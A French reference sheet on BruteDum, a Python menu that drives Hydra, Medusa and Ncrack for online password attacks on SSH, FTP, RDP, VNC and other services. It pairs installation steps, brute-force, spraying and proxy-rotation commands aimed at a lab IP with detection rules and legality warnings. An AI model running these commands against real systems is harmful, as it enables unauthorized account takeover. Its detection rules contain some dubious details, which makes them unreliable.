

# BruteDum — Bruteforce réseau tout-en-un en Python

> [!info] **En 1 phrase**
> BruteDum est un script Python interactif qui orchestre Hydra, Medusa et Ncrack pour bruteforcer SSH, FTP, Telnet, PostgreSQL, RDP et VNC, avec un scan Nmap intégré — sans écrire une seule ligne de commande.

---

## Overview

| Champ | Valeur |
|---|---|
| Nom complet | BruteDum |
| Description | Menu interactif Python qui orchestre Hydra, Medusa et Ncrack contre SSH, FTP, Telnet, PostgreSQL, RDP et VNC, avec un scan Nmap intégré des ports de la cible |
| Catégorie | Wordlists & Générateurs (consommateur de wordlists) |
| Sous-catégorie | Brute-force en ligne (online password attack) |
| Fonction principale | Automatiser le bruteforce réseau via un menu numéroté, sans syntaxe d'outils sous-jacents |
| Type d'outil | Script CLI interactif (menu texte) |
| Licence | Non spécifiée (dépôt GitHub d'origine supprimé ; miroir archivé R0ckNRolla) |
| Open source / propriétaire | Open source |
| Langage(s) de programmation | Python 3 |
| Développeur / organisation | GitHackTools (pseudo de l'auteur, anciennement @SecureGF) |
| Projet officiel | GitHackTools (blogspot) — dépôt d'origine disparu |
| Dépôt officiel | https://github.com/R0ckNRolla/BruteDum (miroir archivé) |
| Documentation officielle | README du dépôt miroir + présentation GitHackTools |
| Date de création | ~2019 (premières présentations publiques en 2019-2020) |
| État du projet | obsolète / non maintenu (dernière activité ~2019, auteur injoignable) |
| Dernière version connue | 1.0 |
| Systèmes compatibles | Linux (toute distro avec Python 3), WSL ; Windows possible mais non ciblé |

> [!note] Pour vérifier / compléter
> Le dépôt `GitHackTools/BruteDum` a été supprimé de GitHub. Le miroir `R0ckNRolla/BruteDum` conserve le code et le README. À noter : le README mentionne que l'installation requiert Python 3 **et** les binaires `hydra`, `medusa`, `ncrack`, `nmap`.

---

## Concept

BruteDum (GitHackTools) est un **menu interactif** numéroté qui enveloppe les outils de bruteforce réseau classiques : choix du moteur (Hydra recommandé, Medusa, Ncrack), du protocole (SSH, FTP, Telnet, PostgreSQL, RDP, VNC), de la cible, des listes d'usernames et de mots de passe, du nombre de threads — puis BruteDum construit et lance la commande correspondante en arrière-plan. Il intègre aussi un **scan Nmap** des ports de la cible avant l'attaque, ce qui évite de perdre du temps sur un service fermé.

Il ne génère pas lui-même de wordlists (la génération de wordlists figure dans sa to-do list, jamais implémentée) : il **consomme** celles produites par [[Outil - SecLists|SecLists]], [[Outil - CeWL|CeWL]], [[Outil - CUPP|CUPP]], [[Outil - Crunch|Crunch]] ou [[Outil - pydictor|pydictor]]. Sa place dans un pentest se situe en **phase de validation des accès** : quand on dispose de jeux d'identifiants et qu'on veut automatiser rapidement une attaque en ligne sur plusieurs services. Il est pensé pour les débutants (menu guidé) mais reste un simple frontal : toute la puissance vient des outils sous-jacents ([[Outil - hydra|hydra]], [[Outil - Medusa|Medusa]], [[Outil - ncrack|ncrack]]).

Historique : présenté en 2019-2020 (Null Byte, Kalilinux Tutorials), le projet a rapidement été abandonné, le dépôt original supprimé, et l'auteur n'a pas répondu aux demandes. Son intérêt aujourd'hui est surtout **pédagogique** : comprendre ce qu'un menu fait, c'est comprendre comment wrapper hydra/medusa/ncrack dans un script Python.



---

## Concepts fondamentaux

| Concept | Explication |
|---|---|
| Brute-force en ligne | Tentatives d'authentification réelles contre un service réseau vivant ; chaque essai traverse la pile réseau, génère des logs et consomme de la bande passante |
| Moteur de bruteforce | Programme qui ouvre les connexions et teste des couples user/pass : Hydra (polyvalent), Medusa (parallèle), Ncrack (axé RDP/VNC) |
| Protocoles ciblés | SSH (port 22), FTP (21), Telnet (23), PostgreSQL (5432), RDP (3389), VNC (5900) — ports par défaut modifiables dans le menu |
| Scan de ports Nmap | Étape préalable : vérifier que le service visé est réellement ouvert avant de lancer des milliers de tentatives |
| Threads | Nombre de connexions parallèles ; trop de threads = détection facile et verrouillage des comptes |
| Lockout / rate limiting | Mécanismes défensifs qui bloquent un compte ou une IP après N échecs — le bruteforce en ligne doit les respecter |
| Énumération d'usernames | Observer les messages d'erreur différenciés (user invalide vs mauvais mot de passe) pour réduire la liste avant l'attaque |

---

## Installation

### Debian / Ubuntu / Kali Linux

```bash
# Dépendances : Python 3 + les trois moteurs + Nmap
sudo apt update && sudo apt install -y python3 nmap hydra medusa ncrack
# Récupération du script (dépôt d'origine supprimé, miroir archivé)
git clone https://github.com/R0ckNRolla/BruteDum.git
cd BruteDum
python3 brutedum.py
```

### Arch Linux

```bash
sudo pacman -S python3 nmap hydra medusa ncrack
git clone https://github.com/R0ckNRolla/BruteDum.git
cd BruteDum && python3 brutedum.py
```

### Fedora / RHEL

```bash
sudo dnf install python3 nmap hydra medusa ncrack
git clone https://github.com/R0ckNRolla/BruteDum.git
cd BruteDum && python3 brutedum.py
```

### macOS

```bash
brew install python3 nmap hydra ncrack
# Medusa : non packagé par défaut, compiler depuis les sources si nécessaire
git clone https://github.com/R0ckNRolla/BruteDum.git
cd BruteDum && python3 brutedum.py
```

### Windows

```powershell
# Non ciblé : l'usage reste Linux/WSL. Sur WSL, suivre l'installation Linux.
# En natif, installer Python 3 puis les binaires Windows de hydra/nmap/ncrack.
```

### Docker

```bash
# Aucune image officielle. Déployer dans un conteneur Kali :
docker run -it --rm kalilinux/kali-rolling bash
apt update && apt install -y python3 nmap hydra medusa ncrack git
git clone https://github.com/R0ckNRolla/BruteDum.git
```

### Compilation depuis les sources

```bash
# Pas de compilation : script Python pur. Le seul "build" est un clone.
git clone https://github.com/R0ckNRolla/BruteDum.git && cd BruteDum
chmod +x brutedum.py
```

> [!warning] Prérequis & problèmes potentiels
> - Les binaires `hydra`, `medusa`, `ncrack` et `nmap` **doivent être dans le PATH** : BruteDum les invoque par leur nom.
> - Le README du dépôt d'origine contenait une faute de frappe dans la procédure d'installation (chemin de script erroné) — les tests montrent que l'échec venait souvent de là.
> - Le script lit les fichiers de wordlists relativement au dossier courant : placer `users.txt`/`pass.txt` dans le même répertoire ou fournir des chemins absolus.
> - Dépôt non maintenu : tester les commandes hydra/medusa/ncrack manuellement en cas de bug du menu.

---

## Configuration

BruteDum n'a pas de fichier de configuration : toute la configuration est **interactive**, posée question par question dans le menu. Les valeurs saisies sont ensuite injectées dans la commande de l'outil choisi.

| Paramètre | Rôle | Valeur possible | Impact | Exemple |
|---|---|---|---|---|
| Choix du moteur | Outil exécuté en arrière-plan | `1` Hydra (recommandé), `2` Medusa, `3` Ncrack | Change la syntaxe et les capacités (Ncrack = RDP/VNC) | `1` |
| Choix du service | Protocole attaqué | SSH, FTP, Telnet, PostgreSQL, RDP, VNC | Port ciblé et module de l'outil | `SSH` |
| IP cible | Hôte de la victime | Adresse IPv4 | Cible de toutes les connexions | `10.10.20.15` |
| Chemin usernames | Fichier de noms d'utilisateurs | Chemin absolu ou relatif | Liste des comptes à tester | `users.txt` |
| Chemin passwords | Fichier de mots de passe | Chemin absolu ou relatif | Liste des mots à tester | `pass.txt` |
| Threads | Connexions parallèles | Entier (ex : 4) | Vitesse vs détection/verrouillage | `4` |
| Scan Nmap intégré | Oui/Non avant attaque | choix du menu | Vérifie que le port est ouvert | `Y` |

> [!note] À vérifier
> La saisie du port peut faire planter le script si elle est laissée vide (bug rapporté dans les tests Null Byte). Toujours fournir un port explicite.

---

## Architecture interne

Le script `brutedum.py` est un **frontal CLI** de quelques centaines de lignes, organisé ainsi :

- **Boucle de menu** : `print()` + `input()` numérotés ; chaque choix branche vers une fonction de construction de commande.
- **Scanner Nmap** : sous-processus lançant `nmap -sV` sur la cible (ports 22, 21, 23, 5432, 3389, 5900 par défaut) pour afficher les services ouverts.
- **Générateur de commandes** : selon moteur + protocole, le script assemble la ligne (ex : `hydra -L users.txt -P pass.txt ssh://IP -t 4`).
- **Exécution** : `os.system()` ou équivalent — la sortie de l'outil sous-jacent est affichée telle quelle dans le terminal.
- **Aucune persistance** : pas de base de données, pas de fichier de rapport ; les résultats sont lus dans la sortie brute de hydra/medusa/ncrack.

Flux de données : wordlists → menu → construction de la ligne → sous-processus hydra/medusa/ncrack → sortie terminal → analyse manuelle.

Limites architecturales : pas de retry, pas de gestion de verrouillage, pas de log structuré, pas de support des listes compressées, pas de résumé automatisé des comptes trouvés.

---

## Commandes

### Commandes principales

```bash
# Lancement du menu interactif (UNIQUE entrée de BruteDum)
python3 brutedum.py
```

| Commande | Objectif | Résultat attendu |
|---|---|---|
| `python3 brutedum.py` | Ouvrir le menu interactif | Menu numéroté : scan Nmap, choix moteur, service, cible, wordlists, threads |
| `nmap -sV -p 22,21,23,3389,5432,5900 <IP>` | Équivalent du scan intégré | Liste des services ouverts avant attaque |
| `hydra -L users.txt -P pass.txt ssh://<IP> -t 4` | Ce que BruteDum construit en interne (SSH/Hydra) | Comptes valides affichés en `[22][ssh] host: IP login: ... password: ...` |
| `medusa -h <IP> -U users.txt -P pass.txt -M ftp -t 3` | Équivalent Medusa (FTP) | Comptes valides affichés par module |
| `ncrack -p 3389 --user admin -P pass.txt <IP>` | Équivalent Ncrack (RDP) | Résultats `3389/tcp open rdp ... Login: admin Password: ...` |

### Commandes avancées

```bash
# Tester manuellement ce que le menu devrait faire (SSH, threads modérés)
hydra -L users.txt -P pass.txt ssh://10.10.20.15 -t 4 -f -o resultats.txt
# Scan préalable équivalent à l'option intégrée
nmap -sV -Pn -p 22,21,23,3389,5432,5900 10.10.20.15
# Attaque RDP avec Ncrack (meilleur support que hydra)
ncrack -p 3389 -U users.txt -P pass.txt 10.10.20.15 -t 1
# Attaque PostgreSQL avec Medusa
medusa -h 10.10.20.15 -U users.txt -P pass.txt -M postgres -t 2
```

---

## Options et flags

BruteDum n'expose **aucun flag en ligne de commande** : il n'accepte pas d'arguments autres que l'exécution du script. Les "options" sont les entrées du menu.

| Option (menu) | Description | Équivalent CLI sous-jacent | Niveau |
|---|---|---|---|
| Scan Nmap | Découverte des ports ouverts avant attaque | `nmap -sV <IP>` | Basic |
| Choix du moteur | Hydra / Medusa / Ncrack | `hydra` / `medusa` / `ncrack` | Basic |
| Choix du service | SSH, FTP, Telnet, PostgreSQL, RDP, VNC | `ssh://`, `ftp://`, etc. | Basic |
| IP cible | Hôte à attaquer | adresse IP | Basic |
| Fichier usernames | Liste des comptes | `-L` (hydra), `-U` (medusa), `-U` (ncrack) | Intermediate |
| Fichier passwords | Liste des mots | `-P` (hydra), `-P` (medusa), `-P` (ncrack) | Intermediate |
| Threads | Parallélisme des tentatives | `-t N` | Intermediate |
| Port du service | Port à attaquer | `-p` (ncrack) / service:port | Intermediate |
| Stop à la 1ère trouvaille | Non proposé par le menu | `-f` (hydra) | Advanced |
| Export des résultats | Non proposé par le menu | `-o fichier` (hydra) | Advanced |

> [!tip] Options les plus utiles au quotidien
> - Préférer Hydra pour SSH/FTP/Telnet/PostgreSQL.
> - Passer par Ncrack pour RDP et VNC (meilleur support des protocoles Microsoft).
> - Garder un nombre de threads bas (`2`-`4`) pour ne pas verrouiller les comptes.
> - Toujours lancer le scan Nmap intégré avant l'attaque.

---

## Exemples pratiques

### Beginner

```bash
# 1. Préparer une petite wordlist (extrait de SecLists)
head -n 100 /usr/share/seclists/Passwords/Common-Credentials/best1050.txt > pass.txt
printf "admin\nroot\ntest\n" > users.txt
# 2. Lancer le menu
python3 brutedum.py
# 3. Répondre : moteur 1 (Hydra), service SSH, IP 10.10.20.15, users.txt, pass.txt, threads 4
```

Résultat attendu : hydra teste 100 mots × 3 usernames ; si `admin:password` est valide, hydra l'affiche dans son output.

### Intermediate

```bash
# Cible multi-services : scanner d'abord, puis attaquer les services ouverts
nmap -sV -Pn -p 21,22,3389,5432,5900 10.10.20.15
# FTP d'abord (souvent moins protégé), puis SSH
python3 brutedum.py   # -> FTP, threads 3
python3 brutedum.py   # -> SSH, threads 3
```

### Advanced

```bash
# Préparer des wordlists mutées avant de lancer BruteDum
rsmangler --file mots_site.txt --output /tmp/ssh_mut.txt
cewl -d 2 -m 5 -w /tmp/site.txt https://example.com
sort -u /tmp/ssh_mut.txt /tmp/site.txt > pass.txt
# Puis menu BruteDum avec pass.txt étoffé
python3 brutedum.py
```

### Expert

```bash
# Contourner les limites du menu : reproduire manuellement ce qu'il construit,
# avec options absentes du menu (stop au 1er succès + export + proxies multiples)
hydra -L users.txt -P pass.txt ssh://10.10.20.15 -t 4 -f -o /tmp/resultats.txt
# Rotation d'IP (si proxy SOCKS) : hydra supporte via nc -x
hydra -L users.txt -P pass.txt -x socks5://127.0.0.1:9050 ssh://10.10.20.15
# Corréler les comptes trouvés avec les hashes (reuse d'identifiants)
nxc smb 10.10.20.15 -u users_valides.txt -p pass_valides.txt --continue-on-success
```

---

## Workflow complet (scénario pas à pas)

1. **Préparer les wordlists** (voir [[Outil - SecLists|SecLists]], [[Outil - CeWL|CeWL]], [[Outil - CUPP|CUPP]]) :
   ```bash
   head -n 100 /usr/share/seclists/Passwords/Common-Credentials/best1050.txt > pass.txt
   printf "admin\nroot\n" > users.txt
   ```
2. **Scanner les ports de la cible** avec l'option Nmap de BruteDum :
   ```bash
   nmap -sV -Pn -p 22,21,23,3389,5432,5900 10.10.20.15
   ```
3. **Lancer le menu** :
   ```bash
   python3 brutedum.py
   ```
4. **Renseigner les questions** : moteur (Hydra), service (SSH), IP `10.10.20.15`, `users.txt`, `pass.txt`, threads (`4`).
5. **Analyser les résultats** : un compte valide dans la sortie hydra indique un mot de passe faible ou une bonne collecte OSINT.
6. **Recommencer avec une autre liste** si besoin (ex : mots mutés via [[Outil - rsmangler|rsmangler]]), ou tester le compte trouvé sur d'autres services (reuse).

> [!note] À vérifier
> BruteDum affiche la sortie brute de l'outil sous-jacent : il n'y a pas de parsing des comptes valides. Les résultats doivent être relus dans le flux hydra/medusa/ncrack.

---

## Scénarios avancés

### Scénario 1 : SSH avec liste personnalisée

Générer les mots avec [[Outil - rsmangler|rsmangler]] puis attaquer via BruteDum :

```bash
rsmangler --file mots_site.txt --output /tmp/ssh_mut.txt
sort -u /tmp/ssh_mut.txt > pass.txt
python3 brutedum.py
# Réponses : Hydra, SSH, 10.10.20.15, users.txt, pass.txt, 4 threads
```

### Scénario 2 : rotation sur plusieurs services

Détecter les services ouverts avec Nmap, puis lancer successivement les attaques FTP puis RDP depuis le menu :

```bash
nmap -sV -Pn -p 21,22,3389,5900 10.10.20.15
# Service 21 ouvert -> menu BruteDum, FTP, threads 3
python3 brutedum.py
# Service 3389 ouvert -> menu BruteDum, RDP, moteur Ncrack, threads 1
python3 brutedum.py
```

### Scénario 3 : password spraying prudent (mot unique par compte)

Le menu ne le fait pas : le faire à la main, puis vérifier les résultats :

```bash
shuf pass.txt | head -20 > /tmp/spray.txt
hydra -L users.txt -P /tmp/spray.txt -t 1 -f ssh://10.10.20.15
# hydra teste chaque mot contre chaque compte, lentement, pour limiter le lockout
```

---

## Cybersecurity use cases

| Phase | Utilisation |
|---|---|
| Reconnaissance | Scan Nmap intégré (ports 22, 21, 23, 3389, 5432, 5900) |
| Énumération | Identifier les services d'authentification exposés |
| Vulnérabilité | Tester la solidité des politiques de mots de passe (audit interne) |
| Exploitation / Credential Access | Validation d'identifiants faibles sur SSH, FTP, Telnet, PostgreSQL, RDP, VNC |
| Post-exploitation | Réutilisation des comptes trouvés sur d'autres services (reuse) |
| Red Team | Automatisation rapide de campagnes de bruteforce ciblées en lab |

---

## MITRE ATT&CK

| Tactique | Technique / Sub-technique | ID | Raison | Détection | Mitigation |
|---|---|---|---|---|---|
| Credential Access | Brute Force | T1110 | BruteDum orchestre des tentatives répétées de login sur les services réseau | Monitoring des échecs d'authentification (DET0816) | Verrouillage de compte, rate limiting, MFA |
| Credential Access | Brute Force : Password Guessing | T1110.001 | Teste des couples user/pass contre SSH, FTP, Telnet, PostgreSQL | Journalisation des échecs + corrélation SIEM | Politique de mots de passe, fail2ban |
| Credential Access | Brute Force : Password Spraying | T1110.003 | Usage recommandé dans les scénarios : un mot unique par compte pour éviter le lockout | Alertes sur volume d'échecs par compte | MFA, verrouillage progressif |
| Credential Access | Valid Accounts | T1078 | Un compte trouvé donne un accès légitime exploité ensuite | Détection d'usage anormal des comptes | MFA, supervision des connexions |
| Discovery | Network Service Discovery | T1046 | Le scan Nmap intégré découvre les services ouverts | IDS/IPS sur scans de ports | Filtrage réseau, firewall |

> [!note] Ne renseigner que si l'association est réellement pertinente.
> BruteDum est un agrégateur : les techniques réellement implémentées appartiennent aux moteurs sous-jacents (hydra, medusa, ncrack, nmap).

---

## Defensive Security

BruteDum en lui-même n'ajoute rien de nouveau côté défensif : il exécute hydra/medusa/ncrack. Les signes observables sont donc ceux de ces outils, déclenchés depuis un menu.

### Signes observables

| Indicateur | Détail |
|---|---|
| Taux d'échec d'authentification élevé | Dizaines/centaines d'échecs sur SSH, FTP, RDP depuis une même IP |
| Connexions parallèles nombreuses | Plusieurs connexions TCP simultanées vers le même service (threads) |
| Usernames inexistants testés en masse | Réponses différenciées selon le serveur (ex : "Invalid user" OpenSSH) |
| Événements Windows 4625 | Échecs de logon répétés sur RDP (Type 3) |
| Logs PostgreSQL / FTP | `password authentication failed for user` en rafale |
| Trafic de scan Nmap préalable | SYN scan vers 22, 21, 23, 3389, 5432, 5900 avant l'attaque |

### Règles de détection (Sigma / Suricata / Snort / YARA)

```yaml
# Sigma — échecs SSH répétés depuis une même IP (adapté du SIGMA HQ)
title: SSH Multiple Failed Login Attempts
id: 0c8d1c6e-1a2b-4c3d-8e4f-5a6b7c8d9e0f
status: test
logsource:
    category: authentication
    product: linux
detection:
    selection:
        EventID: 22
        User: root
    condition: selection | count() by Source.IpAddress > 10 within 5 minutes
level: medium
```

```bash
# Suricata/Snort — bruteforce SSH (pattern classique)
alert tcp any any -> any 22 (msg:"SSH brute force attempt"; flow:to_server,established;
  content:"SSH-"; nocase; threshold:type both, track by_src, count 10, seconds 60;
  sid:1000001; rev:1;)
```

> [!note] À vérifier
> Règles pédagogiques à adapter : seuils et fenêtres dépendent de la taille du réseau et du trafic légitime (faux positifs possibles avec des scripts internes).

---

## Automatisation

```bash
# Bash — envelopper le menu : non automatisable directement (interactif).
# Alternative : reproduire les commandes que BruteDum génère, en boucle.
for svc in ssh ftp; do
  hydra -L users.txt -P pass.txt "$svc"://10.10.20.15 -t 4 -o "res_$svc.txt"
done
```

```python
# Python — remplacer BruteDum par un wrapper équivalent (subprocess)
import subprocess

MOTEURS = {
    "ssh": ["hydra", "-L", "users.txt", "-P", "pass.txt", "ssh://10.10.20.15", "-t", "4"],
    "rdp": ["ncrack", "-p", "3389", "-U", "users.txt", "-P", "pass.txt", "10.10.20.15"],
}
for svc, cmd in MOTEURS.items():
    print(f"[*] Attaque {svc}")
    subprocess.run(cmd)
```

---

## Output et parsing

BruteDum ne structure aucune sortie : il relaie stdout/stderr de l'outil sous-jacent. C'est donc la sortie de hydra/medusa/ncrack qu'il faut parser.

```bash
# hydra -o fichier puis extraction des logins/password trouvés
grep -E "login:" resultats.txt | sed 's/.*login: *\([^ ]*\) *password: *\(.*\)/\1:\2/' > comptes.txt
# ncrack : lignes "Login:" / "Password:"
grep -E "Login:" resultats_ncrack.txt | awk '{print $4}' | sort -u
```

```python
# Python — parsing de la sortie hydra
import re
with open("resultats.txt", encoding="utf-8", errors="ignore") as f:
    for line in f:
        m = re.search(r"login:\s*(\S+)\s+password:\s*(\S+)", line)
        if m:
            print(f"{m.group(1)}:{m.group(2)}")
```

---

## Intégrations

```text
SecLists/CeWL/CUPP/rsmangler → BruteDum → hydra/medusa/ncrack → comptes valides → nxc/hashcat
```

- [[Tools| Outils]] global
- [[Outil - hydra|hydra]] — moteur principal orchestré par le menu
- [[Outil - Medusa|Medusa]] — moteur alternatif parallèle
- [[Outil - ncrack|ncrack]] — moteur pour RDP/VNC
- [[Outil - Nmap|Nmap]] — scan intégré des ports
- [[Outil - SecLists|SecLists]] · [[Outil - CeWL|CeWL]] · [[Outil - CUPP|CUPP]] · [[Outil - Crunch|Crunch]] · [[Outil - rsmangler|rsmangler]] — fournisseurs de wordlists
- [[Techniques/Password Cracking| Password Cracking]] · [[Techniques/Brute Force Rate Limit|Brute Force Rate Limit]] — fiches techniques liées

---

## Alternatives

| Outil | Avantages | Inconvénients | Cas d'usage |
|---|---|---|---|
| [[Outil - hydra|hydra]] | Rapide, très complet, actif | Syntaxe en ligne de commande | Usage direct du moteur |
| [[Outil - Medusa|Medusa]] | Parallélisme massif, modules variés | Moins de protocoles que hydra | Bruteforce massif local |
| [[Outil - ncrack|ncrack]] | Excellent sur RDP/VNC/HTTP | Moins polyvalent globalement | Services Microsoft |
| Patator | Debug interactif des erreurs | Moins connu, config plus verbeuse | Protocoles exotiques |
| NXC (NetExec) | Spraying SMB/LDAP moderne | Protocoles réseau restreints | Active Directory |

> **Quand utiliser BruteDum plutôt que hydra directement ?** Quand on veut un menu guidé sans syntaxe. En pratique, on gagne plus à utiliser hydra/medusa/ncrack directement : plus de contrôle (flags `-f`, `-o`, proxies) et maintenance assurée.

---

## Performance

- Le coût est entièrement celui des moteurs sous-jacents : hydra/medusa/ncrack font des milliers de tentatives/minute selon le protocole et le réseau.
- Les threads du menu sont passés tels quels à l'outil : `-t 4` sur hydra ≈ 4 connexions parallèles. Sur SSH (handshake coûteux), les débits sont bien inférieurs à RDP.
- Le scan Nmap intégré est plus lent que `nmap --min-rate` : utile pour valider l'état des services, pas pour scanner de grandes portées.
- Aucune optimisation interne : pas de caching, pas de pré-filtrage des doublons de wordlists — le gain se joue sur la qualité des listes fournies.

> [!note] À vérifier
> Chiffres absents de la documentation officielle (dépôt supprimé) : ce sont des ordres de grandeur issus des tests communautaires (Null Byte, 2020).

---

## Troubleshooting

### Common problems

#### Problème : le menu affiche "command not found: hydra"

- **Cause** : binaires non installés ou absents du PATH.
- **Solution** : `sudo apt install hydra medusa ncrack nmap` (Debian/Kali). **Vérification** : `which hydra medusa ncrack nmap`.

#### Problème : le script plante quand on laisse le port vide

- **Cause** : bug du script (saisie port non validée).
- **Solution** : toujours saisir un port explicite, ou corriger la ligne de saisie dans `brutedum.py`. **Vérification** : relancer et fournir `22`.

#### Problème : le script ne trouve pas le fichier de wordlist

- **Cause** : chemin relatif incorrect (fichier absent du dossier courant).
- **Solution** : utiliser des chemins absolus (`/tmp/users.txt`, `/tmp/pass.txt`). **Vérification** : `ls -la users.txt pass.txt` avant lancement.

#### Problème : aucune attaque ne démarre malgré le menu

- **Cause** : dépôt d'origine corrompu/incomplet ou version copiée d'un walkthrough.
- **Solution** : recloner le miroir `R0ckNRolla/BruteDum` et exécuter la commande hydra manuellement pour vérifier le fonctionnement de base.

---

## Sécurité de l'outil

- **Légalité** : le bruteforce en ligne est une activité sensible — usage strictement limité aux périmètres autorisés (lab, audit avec mandat écrit).
- **Aucune gestion des secrets** : les wordlists circulent en clair dans le script et la sortie ; ne pas y mettre de données réelles hors lab.
- **Bruit** : le menu est conçu pour du "fire and forget" — pas de temporisation, pas de pause anti-lockout ; sur une cible réelle, il peut verrouiller des comptes et saturer les logs.
- **Fiabilité** : code non audité, dépôt abandonné — ne jamais l'exécuter avec des privilèges élevés inutilement et inspecter le script avant usage (l'import de modules non standards est un vecteur de supply chain).
- **Recommandations** : privilégier les moteurs à jour (hydra, nxc) directement, et utiliser BruteDum uniquement en environnement de test isolé.

---

## Limitations

- **Ne génère pas de wordlists** : la génération figure dans sa to-do list (jamais implémentée).
- **Pas de parsing des résultats** : sortie brute, comptes à relire à la main.
- **Pas de gestion du lockout** : pas de pause, pas de mode spraying natif.
- **Pas d'export structuré** : ni JSON, ni XML, ni rapport.
- **Bug de saisie du port** : peut planter si champ vide.
- **Projet abandonné** : dépôt d'origine supprimé, aucune mise à jour depuis ~2019, modules hydra évolués non exposés (SMB, HTTP-post, etc.).
- **Multiplateforme limité** : pensé pour Linux/WSL, Windows natif non supporté.

---

## Cheatsheet

```bash
# Installation complète (Debian/Kali)
sudo apt install -y python3 nmap hydra medusa ncrack
git clone https://github.com/R0ckNRolla/BruteDum.git && cd BruteDum

# Lancement
python3 brutedum.py

# Équivalents manuels des actions du menu
nmap -sV -Pn -p 22,21,23,3389,5432,5900 10.10.20.15
hydra -L users.txt -P pass.txt ssh://10.10.20.15 -t 4
medusa -h 10.10.20.15 -U users.txt -P pass.txt -M ftp -t 3
ncrack -p 3389 -U users.txt -P pass.txt 10.10.20.15 -t 1

# Préparation des listes avant BruteDum
head -n 100 /usr/share/seclists/Passwords/Common-Credentials/best1050.txt > pass.txt
rsmangler --file mots_site.txt --output pass.txt
```

---

## Quick reference

| | |
|---|---|
| **À quoi sert-il ?** | Menu interactif Python pour bruteforcer SSH, FTP, Telnet, PostgreSQL, RDP, VNC via hydra/medusa/ncrack, avec scan Nmap intégré |
| **Quand l'utiliser ?** | Validation d'identifiants en ligne sur des services d'authentification (lab, audit autorisé) |
| **Commande principale** | `python3 brutedum.py` |
| **Alternative principale** | [[Outil - hydra|hydra]] / [[Outil - ncrack|ncrack]] en CLI directe, NXC pour l'AD |
| **Concepts importants** | Moteur de bruteforce, threads, lockout, password spraying, wordlists |
| **Liens associés** | [[Outil - hydra|hydra]] · [[Outil - Medusa|Medusa]] · [[Outil - ncrack|ncrack]] · [[Outil - SecLists|SecLists]] |

---

## Détection & Défense

| Signe | Défense |
|---|---|
| Taux d'échec d'authentification élevé sur un service | Verrouillage après N échecs + délai exponentiel (fail2ban) |
| Connexions parallèles nombreuses (threads) | Détection SIEM + rate limiting par IP |
| Usernames non-existants testés en masse | Alertes sur codes d'erreur différenciés (SSH "Invalid user") |
| Événements Windows 4625 (RDP) | Corrélation SIEM, MFA obligatoire sur RDP |
| Scan Nmap préalable vers 22/21/23/3389/5432/5900 | Règles IDS/IPS sur les scans de ports |
| Réutilisation du compte sur d'autres services | Supervision des connexions anormales + MFA |

---

## Tips & Pièges

> [!tip] **Tips**
> - Commencer par un petit volume (`head -n 100`) et étudier les messages d'erreur du protocole : l'énumération d'usernames (réponses différenciées) réduit la liste avant l'attaque.
> - Préférer Hydra pour SSH/FTP/Telnet/PostgreSQL ; Ncrack est plus fiable sur RDP/VNC.
> - Utiliser le scan Nmap intégré pour ne jamais attaquer un service fermé.
> - Nourrir le menu avec des listes mutées ([[Outil - rsmangler|rsmangler]], [[Outil - CeWL|CeWL]]) : la qualité des listes fait 90 % du résultat.
> - Vérifier les comptes trouvés sur d'autres services (reuse d'identifiants) avant de conclure.

> [!warning] **Pièges**
> - BruteDum **ne génère pas** de wordlists : tout doit être préparé avant.
> - Un bruteforce en ligne bruyant (threads élevés) déclenche les protections et peut verrouiller les comptes testés.
> - Le dépôt d'origine est supprimé et le script non maintenu : tester les commandes hydra/medusa/ncrack manuellement si le menu échoue.
> - Ne jamais lancer sans autorisation écrite : l'attaque est facilement détectable dans les logs du serveur cible.

---

## References

### Official

- Dépôt miroir (dépôt d'origine supprimé) : https://github.com/R0ckNRolla/BruteDum
- Blog GitHackTools : https://githacktools.blogspot.com/
- README du dépôt (installation, features, to-do list) : https://github.com/R0ckNRolla/BruteDum

### Security references

- MITRE ATT&CK T1110 — Brute Force : https://attack.mitre.org/techniques/T1110/
- MITRE ATT&CK T1078 — Valid Accounts : https://attack.mitre.org/techniques/T1078/
- MITRE ATT&CK T1046 — Network Service Discovery : https://attack.mitre.org/techniques/T1046/

### Community

- Null Byte — How to Brute-Force SSH, FTP, VNC & More with BruteDum : https://null-byte.wonderhowto.com/how-to/brute-force-ssh-ftp-vnc-more-with-brutedum-0197449
- Latest Hacking News — BruteDum review (2022) : https://latesthackingnews.com/2022/08/08/brutedum-a-network-attack-bruteforce-tool/
- Kalilinux Tutorials — BruteDum (2019) : https://kalilinuxtutorials.com/brutedum

---

**Liens :** [[Tools| Outils]] · [[Outil - hydra|hydra]] · [[Techniques/Brute Force Rate Limit|Brute Force Rate Limit]] · [[Outil - SecLists|SecLists]] · [[Outil - Medusa|Medusa]] · [[Outil - ncrack|ncrack]] · [[Outil - Nmap|Nmap]] · [[Techniques/Password Cracking| Password Cracking]]
